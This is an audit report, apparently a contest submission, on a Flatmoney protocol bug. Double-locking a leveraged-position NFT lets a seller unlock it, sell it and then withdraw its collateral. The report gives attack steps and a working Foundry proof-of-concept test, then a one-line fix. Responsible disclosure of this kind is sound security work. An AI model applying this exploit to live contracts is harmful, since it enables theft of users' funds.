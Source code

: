 Large Pebble Goldfish

high

# User can unlock NFTs and withdraw collateral from a leveraged position that they do not own.

## Summary

Attacker can trick other users and steal their funds.

## Vulnerability Detail

User is able to unlock locked leveraged position. Then he could sell this NFT to other user. After transfering the ownership of the position user can withdraw all of the collateral, leaving buyer with nothing. It is possible due to the fact that the NFT can be locked even when it has been locked before. Attacker can unlock it using `LimitOrder` contract and transfer it to another user while having an active order in `DelayedOrder` contract.

To achive that, attacker has to:

1. Create and fund the position: `announceLeverageOpen`.
https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/DelayedOrder.sol#L160-L209

2. Call `announceLeverageClose` which locks the NFT. 
https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/DelayedOrder.sol#L361

3. Call `announceLimitOrder` in `LimitOrder` which locks the NFT again.
https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/LimitOrder.sol#L76

4. Call `cancelLimitOrder` in `LimitOrder` which unlocks the NFT.
https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/LimitOrder.sol#L94

5. Sell it to other user.

6. After required time has passed user can execute the `announceLeverageClose` order and get back collateral from position.
https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/DelayedOrder.sol#L378-L410

```solidity
function _lock(uint256 tokenId) internal virtual {
        _isLocked[tokenId] = true;

        emit Locked(tokenId);
    }
```

`DelayedOrder` and `LimitOrder` have seperate state variables to hold users "orders". Functions do not check if the NFT is locked. This allows user to create orders locking NFT twice and unlocking it, to send it to other user.

`mapping(address account => FlatcoinStructs.Order order) private _announcedOrder;`

`mapping(uint256 tokenId => FlatcoinStructs.Order order) internal _limitOrderClose;`

`------------------------------PoC------------------------------`

Add this file to `test/unit` folder and run test.

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.18;

import {LimitOrder} from "src/LimitOrder.sol";
import {FlatcoinStructs} from "src/libraries/FlatcoinStructs.sol";
import {FlatcoinErrors} from "src/libraries/FlatcoinErrors.sol";
import {ExpectRevert} from "../helpers/ExpectRevert.sol";
import {OrderHelpers} from "../helpers/OrderHelpers.sol";

import "forge-std/console2.sol";

contract PoC is OrderHelpers, ExpectRevert {
    uint256 tokenId;
    uint256 keeperFee;

    function getPriceUpdateDataa(uint256 price) public view returns (bytes[] memory priceUpdateData) {
        // price = price / 1e10;

        priceUpdateData = new bytes[](1);
        priceUpdateData[0] = mockPyth.createPriceFeedUpdateData(
            0xff61491a931112ddf1bd8147cd1b641375f79f5825126d665480874634fd0ace,
            int64(uint64(price)),
            uint64(price) / 10_000,
            -8,
            int64(uint64(price)),
            uint64(price) / 10_000,
            uint64(block.timestamp)
        );
    }

    function test_poc() public {
        super.setUp();

        uint256 stableDeposit = 100e18;
        uint256 collateralPrice = 1000e8;
        keeperFee = mockKeeperFee.getKeeperFee();

        announceAndExecuteDeposit({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: stableDeposit,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        announceAndExecuteLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            margin: 10e18,
            additionalSize: 10e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        tokenId = announceAndExecuteLeverageOpen({
            traderAccount: bob,
            keeperAccount: keeper,
            margin: 10e18,
            additionalSize: 10e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        announceCloseLeverage({traderAccount: bob, tokenId: tokenId, keeperFeeAmount: 0});

        vm.startPrank(bob);

        limitOrderProxy.announceLimitOrder({
            tokenId: tokenId,
            priceLowerThreshold: 900e18,
            priceUpperThreshold: 1100e18
        });

        limitOrderProxy.cancelLimitOrder(tokenId);

        leverageModProxy.transferFrom(address(bob), address(carol), tokenId);

        vm.stopPrank();

        skip(uint256(vaultProxy.minExecutabilityAge())); // must reach minimum executability time

        bytes[] memory priceUpdateData = getPriceUpdateDataa(collateralPrice);

        vm.startPrank(alice);

        console2.log("Owner of NFT");
        console2.log(leverageModProxy.ownerOf(tokenId));
        console2.log("Attacker address");
        console2.log(address(bob));

        delayedOrderProxy.executeOrder{value: 1}(address(bob), priceUpdateData);

        vm.expectRevert("ERC721: invalid token ID");
        leverageModProxy.ownerOf(tokenId);
    }
}
```

Attacker will withdraw collateral from position, even though he is not the owner of the NFT. The real NFT owner will have his token burnt.

## Impact

User can unlock locked NFT and withdraw funds from position he does not own anymore.

## Code Snippet

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/misc/ERC721LockableEnumerableUpgradeable.sol#L32-L36

## Tool used

Manual Review

## Recommendation

To fix this issue the protocol could add this check to the `lock` function in `ERC721LockableEnumerableUpgradeable` contract:

https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/misc/ERC721LockableEnumerableUpgradeable.sol#L32-L36

```solidity
function _lock(uint256 tokenId) internal virtual {
+        if(_isLocked[tokenId] == true) revert("Position already locked");
        _isLocked[tokenId] = true;

        emit Locked(tokenId);
    }
```

It will prevent users from creating a limit order and delayed order simultaneously.
